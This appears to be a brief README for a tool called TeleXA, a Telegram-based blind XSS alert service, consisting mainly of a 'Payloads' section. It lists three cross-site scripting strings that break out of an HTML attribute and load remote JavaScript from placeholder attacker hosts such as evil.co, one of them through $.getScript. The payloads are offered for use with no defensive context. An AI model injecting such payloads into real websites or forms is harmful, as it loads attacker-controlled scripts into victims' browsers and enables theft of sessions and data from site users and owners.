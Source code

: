 # TeleXA
Telegram Blind XSS Alert

# Payloads
```"><script src="http://evil.co/telexa.js"></script>```
```"><script src=http://user.github.io/txa.js></script>```
```"><script>$.getScript("//evil.co/txa.js")</script>```
